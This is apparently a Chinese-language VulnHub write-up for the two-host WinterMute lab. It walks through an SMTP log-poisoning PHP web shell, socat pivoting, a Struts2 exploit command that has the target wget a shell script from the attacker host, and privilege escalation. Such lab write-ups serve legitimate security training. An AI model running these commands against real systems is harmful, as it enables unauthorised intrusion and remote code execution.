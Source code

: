 +++
ShowToc = true
TocOpen = true
title = '0x063 WinterMute '
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



这台靶场是个双主机靶场

# 第一台主机

192.168.5.104

## 端口扫描

![](/vulnhub_img/WEBRESOURCE68c362deba429ae69fed45d9517b9ca8image.png)

![](/vulnhub_img/WEBRESOURCEa844d08924c6c9dadd2bb5ffc0ee911dimage.png)

![](/vulnhub_img/WEBRESOURCEdf5d149940645e9df81a43506f469ab1image.png)

## 渗透

80端口

![](/vulnhub_img/WEBRESOURCE060cc8d1dc9a6d9c316b2b25b1a11c95image.png)

![](/vulnhub_img/WEBRESOURCEc2c79a3c50e937e7793df04a89cd245cimage.png)

3000端口

admin/admin直接进入：

![](/vulnhub_img/WEBRESOURCE1e24b0dee6fe4c2b9da1c19f677f1f03image.png)

然后这里是我没想到的，这里是http的路径：

![](/vulnhub_img/WEBRESOURCEa2e96b80478f41f60c93808700481a0fimage.png)

打开：

![](/vulnhub_img/WEBRESOURCE53f87dad94e3a0ef6f07caad760c742eimage.png)

最开始没看懂什么意思，原来这里的意思是，选择一个人查看他的日志，但是这里看不了/etc/passwd，由于主机开放了25端口，可以看/var/log/mail的日志，就可以用25端口发邮件了：

![](/vulnhub_img/WEBRESOURCE2fec6124137d88692b38ab00d84133b0image.png)

使用NC写入webshell：

```
nc 192.168.5.108 25 			#连接邮件服务器
helo root						#标识用户身份
mail from:"ROOT <?php system($_GET['a']);?>"   #发件人，木马所在地
rcpt to:root					#收件人
data							#编辑
.							    #编辑结束
quit							#退出nc
```

这里的木马有些问题，建议使用get请求，并且id什么的是执行不了的，ls是可以的，传参用&：

![](/vulnhub_img/WEBRESOURCE2fa3b558d7bc141d559d5402c4cfcfc2image.png)

反弹shell:

![](/vulnhub_img/WEBRESOURCE963c068bf535ff76fc31b0879b987ce6image.png)

![](/vulnhub_img/WEBRESOURCE80b38633a18415990dacc18a3e179170image.png)

# 提权

SUID：

![](/vulnhub_img/WEBRESOURCE0427285f16c161ce1c6233b0adf8c7feimage.png)

![](/vulnhub_img/WEBRESOURCEfc75302ecb7e9d34e40eb6105bab0402image.png)

![](/vulnhub_img/WEBRESOURCEbfa6c620f5853a3cc13a7aab78f58b7dimage.png)

![](/vulnhub_img/WEBRESOURCE508789be6ddfaa4e7751c8ea01b07641image.png)

![](/vulnhub_img/WEBRESOURCEad6ded3d3605a4497411630063683c9eimage.png)

# 第二台靶机

第二网卡：

192.168.56.103/24网段：

![](/vulnhub_img/WEBRESOURCE44bde5ae34bf24033969f2e96d8dfeccimage.png)

本来想创建创建远程端口转发的，但是ssh版本不够：

sudo systemctl restart ssh.service

ssh -N -R 9998 [kali@192.168.5.66](http://kali@192.168.5.66)

需要ssh版本7.6以及以上：

![](/vulnhub_img/WEBRESOURCE506cf098d91af47c35f65e9fcc2a26eeimage.png)

那就挨个代理出来：

先进行IP扫描：

```
NET=192.168.56. ; for IP in $(seq 1 255); do if `ping -c2 -i0.2 -w2 $NET$IP &> /dev/null`; then echo -e "$NET$IP is \033[31mup\033[0m" ; else echo -e "$NET$IP is \033[32mdown\033[0m";  fi ; done
```

![](/vulnhub_img/WEBRESOURCE2ee8dba66e84ede94794aba403c6eecaimage.png)

102可能性最大，端口扫描：

```
for i in $(seq 1 65535); do nc -nvz -w 1 192.168.56.102 $i 2>&1; done | grep -v "Connection refused"
```

![](/vulnhub_img/WEBRESOURCE15703d7835e6c9fbcff64f91ee55de0aimage.png)

用socat把端口代理出来：

![](/vulnhub_img/WEBRESOURCEa157d5dbcba06da73ac7134a2147d73cimage.png)

```
socat TCP-LISTEN:8009,fork,reuseaddr tcp:192.168.56.102:8009 &
socat TCP-LISTEN:8080,fork,reuseaddr tcp:192.168.56.102:8080 &
socat TCP-LISTEN:34483,fork,reuseaddr tcp:192.168.56.102:34483 &
```

![](/vulnhub_img/WEBRESOURCE017206957e78a558751f5f69e2eb56b2image.png)

重新扫描一下：

![](/vulnhub_img/WEBRESOURCE93398a132faf925a6b1a936045ffdaf6image.png)

打一半网断了，后面IP变了：

![](/vulnhub_img/WEBRESOURCE4f998a09b6efff34f2764a1fd72a1993image.png)

![](/vulnhub_img/WEBRESOURCE1cd5b6ce008108bc3a7c9ad77d08ba17image.png)

这里没注意，原来note是提示：

![](/vulnhub_img/WEBRESOURCEf03bc91d1e561d041b06bea5fe21e6b5image.png)

这个就显而易见了，struts2漏洞：

![](/vulnhub_img/WEBRESOURCE8c32ffbcd5282a46b31ec7c971c743beimage.png)

先创建一个端口转发，以便于把shell传回kali:

```
socat TCP-LISTEN:9999,fork,reuseaddr tcp:192.168.5.66:9999 &
```

去exploit-db找一个脚本：

![](/vulnhub_img/WEBRESOURCEa9269de1cceb517cc694086d5d0af425image.png)

但是这里没反应，感觉是哪里有问题，既然nc和bash没反应，可以试试写入sh脚本：

![](/vulnhub_img/WEBRESOURCE273eb9f5ca755c7151db7a2a5fec477fimage.png)

再建一个端口转发：

```
socat TCP-LISTEN:7777,fork,reuseaddr tcp:192.168.5.66:80 &
```

python 42324.py [http://192.168.5.111:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action](http://192.168.5.111:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action) "wget [http://192.168.56.103:7777/shell.sh](http://192.168.56.103:7777/shell.sh)"

有反应

![](/vulnhub_img/WEBRESOURCE036f4cd67d3bcbc5a131d85024dc1fe0image.png)

又失败了，放到tmp目录试试：

![](/vulnhub_img/WEBRESOURCEed6004a575fbf4af8ca164949627dea5image.png)

msfvenom:

![](/vulnhub_img/WEBRESOURCE503cf14f6615ad9193e16cd7628c8478image.png)

# 提权

2021-4034

![](/vulnhub_img/WEBRESOURCE27e469b9c5e01820fb797dda5c4202b0image.png)